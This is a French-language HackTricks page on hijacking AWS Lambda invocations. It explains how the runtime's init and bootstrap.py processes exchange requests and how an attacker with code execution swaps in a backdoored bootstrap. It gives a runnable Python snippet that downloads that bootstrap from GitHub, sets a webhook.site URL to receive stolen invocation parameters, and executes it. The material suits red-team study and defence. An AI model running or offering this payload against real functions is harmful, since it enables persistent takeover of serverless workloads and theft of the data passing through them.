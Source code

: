 # AWS - Voler les Requêtes Lambda

{% hint style="success" %}
Apprenez et pratiquez le Hacking AWS :<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Apprenez et pratiquez le Hacking GCP : <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Soutenez HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop) !
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez-nous** sur **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez des astuces de hacking en soumettant des PRs aux dépôts github** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}

## Flux Lambda

<figure><img src="../../../../.gitbook/assets/image (152).png" alt=""><figcaption><p><a href="https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png">https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png</a></p></figcaption></figure>

1. **Slicer** est un processus en dehors du conteneur qui **envoie** des **invocations** au processus **init**.
2. Le processus init écoute sur le port **9001** en exposant certains points de terminaison intéressants :
* **`/2018-06-01/runtime/invocation/next`** – obtenir le prochain événement d'invocation
* **`/2018-06-01/runtime/invocation/{invoke-id}/response`** – retourner la réponse du gestionnaire pour l'invocation
* **`/2018-06-01/runtime/invocation/{invoke-id}/error`** – retourner une erreur d'exécution
3. **bootstrap.py** a une boucle qui obtient des invocations du processus init et appelle le code des utilisateurs pour les traiter (**`/next`**).
4. Enfin, **bootstrap.py** envoie la **réponse** à init

Notez que bootstrap charge le code utilisateur en tant que module, donc toute exécution de code effectuée par le code utilisateur se produit en fait dans ce processus.

## Voler les Requêtes Lambda

Le but de cette attaque est de faire exécuter au code des utilisateurs un processus **`bootstrap.py`** malveillant à l'intérieur du processus **`bootstrap.py`** qui gère la requête vulnérable. De cette façon, le **bootstrap malveillant** commencera à **communiquer avec le processus init** pour gérer les requêtes tandis que le bootstrap **légitime** sera **piégé** en exécutant le malveillant, donc il ne demandera pas de requêtes au processus init.&#x20;

C'est une tâche simple à réaliser car le code de l'utilisateur est exécuté par le processus **`bootstrap.py`** légitime. Ainsi, l'attaquant pourrait :

* **Envoyer un faux résultat de l'invocation actuelle au processus init**, afin qu'init pense que le processus bootstrap attend plus d'invocations.
* Une requête doit être envoyée à **`/${invoke-id}/response`**&#x20;
* L'invoke-id peut être obtenu à partir de la pile du processus **`bootstrap.py`** légitime en utilisant le module python [**inspect**](https://docs.python.org/3/library/inspect.html) (comme [proposé ici](https://github.com/twistlock/lambda-persistency-poc/blob/master/poc/switch\_runtime.py)) ou simplement en le demandant à nouveau à **`/2018-06-01/runtime/invocation/next`** (comme [proposé ici](https://github.com/Djkusik/serverless\_persistency\_poc/blob/master/gcp/exploit\_files/switcher.py)).
* Exécuter un **`boostrap.py`** malveillant qui gérera les prochaines invocations
* Pour des raisons de furtivité, il est possible d'envoyer les paramètres des invocations lambda à un C2 contrôlé par les attaquants et ensuite de gérer les requêtes comme d'habitude.
* Pour cette attaque, il suffit d'obtenir le code original de **`bootstrap.py`** du système ou de [**github**](https://github.com/aws/aws-lambda-python-runtime-interface-client/blob/main/awslambdaric/bootstrap.py), d'ajouter le code malveillant et de l'exécuter à partir de l'invocation lambda actuelle.

### Étapes de l'Attaque

1. Trouver une vulnérabilité **RCE**.
2. Générer un **bootstrap** **malveillant** (par exemple [https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py](https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py))
3. **Exécuter** le bootstrap malveillant.

Vous pouvez facilement effectuer ces actions en exécutant :
```bash
python3 <<EOF
import os
import urllib3

# Download backdoored bootstrap
http = urllib3.PoolManager()
backdoored_bootstrap_url = "https://raw.githubusercontent.com/carlospolop/lambda_bootstrap_switcher/main/backdoored_bootstrap.py"
new_runtime = http.request('GET', backdoored_bootstrap_url).data

# Load new bootstrap
os.environ['URL_EXFIL'] = "https://webhook.site/c7036f43-ce42-442f-99a6-8ab21402a7c0"

exec(new_runtime)
EOF
```
Pour plus d'informations, consultez [https://github.com/carlospolop/lambda\_bootstrap\_switcher](https://github.com/carlospolop/lambda\_bootstrap\_switcher)

## Références

* [https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/](https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/)

{% hint style="success" %}
Apprenez et pratiquez AWS Hacking :<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Apprenez et pratiquez GCP Hacking : <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Soutenez HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop) !
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez-nous** sur **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez des astuces de hacking en soumettant des PRs aux dépôts github** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}
